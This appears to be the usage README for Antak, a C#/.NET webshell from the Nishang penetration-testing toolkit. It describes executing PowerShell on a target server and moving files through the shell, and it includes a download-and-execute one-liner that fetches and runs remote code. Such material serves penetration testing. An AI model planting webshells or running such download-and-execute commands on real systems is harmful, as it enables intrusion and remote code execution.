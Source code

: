 Antak is a webshell written in C#.Net which utilizes powershell.
Antak is a part of Nishang and updates could be found here:
https://github.com/samratashok/nishang

Use this shell as a normal powershell console. Each command is executed in a new process, keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target - 

1. Paste the script in command textbox and click 'Encode and Execute'. A reasonably large script could be executed using this.

2. Use powershell one-liner (example below) for download & execute in the command box.
IEX ((New-Object Net.WebClient).DownloadString('URL to script here')); [Arguments here]

3. By uploading the script to the target and executing it.

4. Make the script a semi-colon separated one-liner.


Files can be uploaded and downloaded using the respective buttons.

Uploading a file - 
To upload a file you must mention the actual path on server (with write permissions) in command textbox. 
(OS temporary directory like C:\Windows\Temp may be writable.)
Then use Browse and Upload buttons to upload file to that path.

Downloading a file - 
To download a file enter the actual path on the server in command textbox.
Then click on Download button.


A detailed blog post on Antak could be found here
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html
